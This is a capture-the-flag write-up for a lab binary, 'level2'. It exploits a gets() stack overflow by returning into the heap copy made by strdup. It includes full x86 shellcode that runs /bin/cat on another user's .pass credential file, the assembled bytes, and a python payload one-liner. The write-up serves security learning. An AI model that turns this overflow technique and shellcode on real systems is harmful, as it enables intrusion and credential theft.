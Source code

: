 This one was a bit harder ! 

We have a binary file `./level2`, when we execute it, it reads stdin. If we write too much characters, the program segfaults.

By reading disassembly in Ghidra, we can see the `main` and `p` functions.  

The `p` function just reads stdin with gets in a buffer[76] on the stack ; then there's a check that the saved EIP on the stack doesn't contain an address starting with 0xB. 
This means that we can't make it point to the stack, the env or the libc for example.
Another thing of note is that the buffer is given to `strdup` at the end of the function (why? lol)

Since we can't overwrite EIP to point to the stack, we can instead point to the heap (thanks strdup for being here).
We can see that the return value of `strdup` is always the same, so all we need to do is just write this address on EIP.
Then, we'll be able to run anything that we put in the buffer. 

We write a shellcode. We could have run `execve("/bin/sh")` but we prefered write a shellcode that runs `/bin/cat /home/user/level3/.pass`.
```asm
xor    %edx,%edx   ; edx = 0 => env = NULL
xor    %eax, eax   ; eax = 0
push   %edx        ; \0
push   $0x73736170 ; pass
push   $0x2E2F2F33 ; 3//.
push   $0x6C657665 ; evel
push   $0x6C2F7265 ; er/l
push   $0x73752F65 ; e/us
push   $0x6D6F682F ; /hom
mov    %esp,%ecx   ; pointeur vers arg
push   %eax        ; \0
push   $0x7461632F ; /cat
push   $0x6E69622F ; /bin
mov    %esp,%ebx   ; pointeur vers path
push   %eax        ; NULL
push   %ecx        ; "/home/user/level3/.pass"
push   %ebx        ; "/bin/cat"
mov    %esp,%ecx   ; pointeur vers tableau d'args
mov    $0xb,%al    ; eax = 0x0b => execve
int    $0x80       ; interrupt syscall, run execve
```

Here is visualization of the stack at the end of our shellcode :
```
| 0x?? | <- "/bin/cat" <- ecx
| 0x?? | <- "/home/user/level3/.pass"
| NULL |
| /bin | <- ebx
| /cat |
| 0000 |
| /hom |
| e/us |
| er/l |
| evel |
| 3//. |
| pass |
```

After compiling the shellcode with `gcc -c shellcode.s` and extracting the hexadecimal representation with `objdump -S shellcode.o` we end up with this: 
```
\x31\xd2\x31\xc0\x52\x68\x70\x61\x73\x73\x68\x33\x2f\x2f\x2e\x68\x65\x76\x65\x6c\x68\x65\x72\x2f\x6c\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80
```

Now we extract the address returned by `strdup` with GDB. We calculate the offset needed to overwrite EIP and we can craft the payload :
```bash
python -c 'print "\x31\xd2\x31\xc0\x52\x68\x70\x61\x73\x73\x68\x33\x2f\x2f\x2e\x68\x65\x76\x65\x6c\x68\x65\x72\x2f\x6c\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80" + (80-59)*"\x00" + "\x08\x04\xa0\x08"[::-1]'
```
Just pipe this in `./level2` and we get the flag! Tadaaaaaa!
